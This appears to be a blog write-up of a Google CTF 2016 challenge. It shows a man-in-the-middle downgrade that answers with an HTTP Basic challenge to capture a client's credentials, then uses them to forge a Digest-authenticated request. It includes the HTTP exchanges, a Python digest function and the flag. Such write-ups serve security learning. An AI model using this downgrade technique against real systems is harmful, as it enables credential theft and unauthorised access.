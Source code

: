 ```yaml
---
layout: post
title: Google CTF 2016 - Opabina Regalis - Downgrade Attack
---
```

> Following on from Opabina Regalis - Token Fetch, this challenge listens on
> ``ssl-added-and-removed-here.ctfcompetition.com:20691``.

This challenge also uses protocol buffers. We're using full duplex sockets to
act as both a client and a server on the same connection. When we first connect,
we are sent a request to ``/protected/not-secret``. The idea is to respond to
this request with a 401 Basic response. We should get a request back with the
base64-encoded username and password. We can take this password to make our own
authenticated requset to ``/protected/secret``.

Initial request from server:

{% highlight http %}
GET /protected/not-secret HTTP/1.1
User-Agent: opabina-regalis.go
{% endhighlight %}

Our 401 response:

{% highlight http %}
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Basic realm="In the realm of hackers"
{% endhighlight %}

The server will then respond with a request containing the base64 username and
password:

{% highlight http %}
GET /protected/not-secret HTTP/1.1
User-Agent: opabina-regalis.go
Authorization: Basic Z29vZ2xlLmN0ZjoxODAxMTg2MjEwLjEwMDA2NTI3NjEuOTA4OTcyODQy
{% endhighlight %}

Which decodes to ``google.ctf:1801186210.1000652761.908972842``. Note that a new
password is generated for each session.

If we make a request to ``/protected/secret``, we get a 401, specifying Digest
authorization:

{% highlight http %}
HTTP/1.1 401 Unauthorized
Server: opabina-regalis.go
WWW-Authenticate: Digest realm="In the realm of hackers",qop="auth",nonce="f2c8bb0f1b5bb7ed",opaque="f2c8bb0f1b5bb7ed"
{% endhighlight %}

Since we have the password, nonce, realm, and opaque parameters, we can now
compute the digest response:

{% highlight python %}
def calc_response(username, realm, password, method, uri, nonce, nc, cnonce):
    ha1 = hashlib.md5(':'.join((username, realm, password))).hexdigest()
    ha2 = hashlib.md5(':'.join((method, uri))).hexdigest()
    r = hashlib.md5(':'.join((ha1, nonce, nc, cnonce, 'auth', ha2))).hexdigest()
    return r
{% endhighlight %}

And we can build the header and send it with our request:

{% highlight http %}
GET /protected/secret HTTP/1.1
Authorization: Digest username="google.ctf",realm="In the realm of hackers",nonce="af8a6a5f1c64ade3",uri="/protected/secret",qop=auth,nc=00000001,cnonce="1115fd1d40a5b9d5",response="ec0555e97853f8e14b2b8cae23208d7b",opaque="af8a6a5f1c64ade3"
{% endhighlight %}

Bingo!

{% highlight http %}
HTTP/1.1 200 OK
Server: opabina-regalis.go

CTF{What:is:green:and:goes:to:summer:camp...A:brussel:scout}
{% endhighlight %}
